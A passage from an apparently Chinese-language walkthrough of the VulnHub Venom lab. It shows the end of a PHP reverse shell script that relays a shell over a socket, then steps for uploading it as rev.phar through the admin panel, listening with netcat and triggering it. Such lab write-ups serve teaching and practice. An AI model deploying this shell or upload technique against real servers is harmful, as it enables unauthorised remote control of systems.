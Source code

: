         stream_set_blocking($pipes[0], 0);
        stream_set_blocking($pipes[1], 0);
        stream_set_blocking($pipes[2], 0);
        stream_set_blocking($sock, 0);

        printit("Successfully opened reverse shell to $ip:$port");

        while (1) {
            if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
            }

            if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
            }

            $read_a = array($sock, $pipes[1], $pipes[2]);
            $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

            if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
            }

            if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
            }

            if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
            }
        }

        fclose($sock);
        fclose($pipes[0]);
        fclose($pipes[1]);
        fclose($pipes[2]);
        proc_close($process);

        function printit ($string) {
            if (!$daemon) {
                print "$string\n";
            }
        }

        ?>
        ```
3. 上傳 reverse shell
    - 在 http://venom.box/ 上點擊齒輪圖示進到管理者頁面 (http://venom/box/panel)，點擊右方 content > uploads 進到上傳區
        ![Go to upload](/blog/vulnhub-venom1/VenomUpload.png)
    - 上傳準備好的 reverse shell `rev.phar`
        ![Upload reverse shell](/blog/vulnhub-venom1/UploadRevShell.png)
4. 取得 reverse shell
    - 在另一個終端機上透過指令 `nc -nlvp 6666` 監聽 port 6666
        ![Listening port 6666](/blog/vulnhub-venom1/Listening.png)
    - 開新分頁 http://venom.box/uploads/rev.phar 執行 web shell